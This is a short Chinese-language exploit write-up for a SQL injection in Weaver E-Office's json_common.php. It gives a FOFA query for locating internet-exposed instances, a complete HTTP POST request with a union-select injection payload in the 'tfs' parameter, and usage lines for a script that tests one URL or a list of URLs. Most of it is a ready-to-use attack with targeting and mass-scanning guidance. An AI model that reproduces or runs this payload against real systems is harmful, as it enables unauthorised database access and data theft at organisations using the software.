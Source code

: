 # 泛微E-Office json_common.php SQL注入漏洞

### 1.漏洞描述

泛微为企业办公提供丰富应用，覆盖常见协作场景，开箱即用。满足人事、行政、财务、销售、运营、市场等不同部门协作需求，帮助组织高效管事理人。

系统 json_common.php 文件存在SQL注入漏洞

### 2.fofa语法

```
app="泛微-EOffice"
```

### 3.漏洞复现

```
POST /building/json_common.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 87
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city` where cityId =-1 /*!50000union*/ /*!50000select*/1,2,md5(102103122) ,4#|2|333
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719831676177-e6783e1e-13aa-48b6-a8a4-7b8519d28c36.png)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

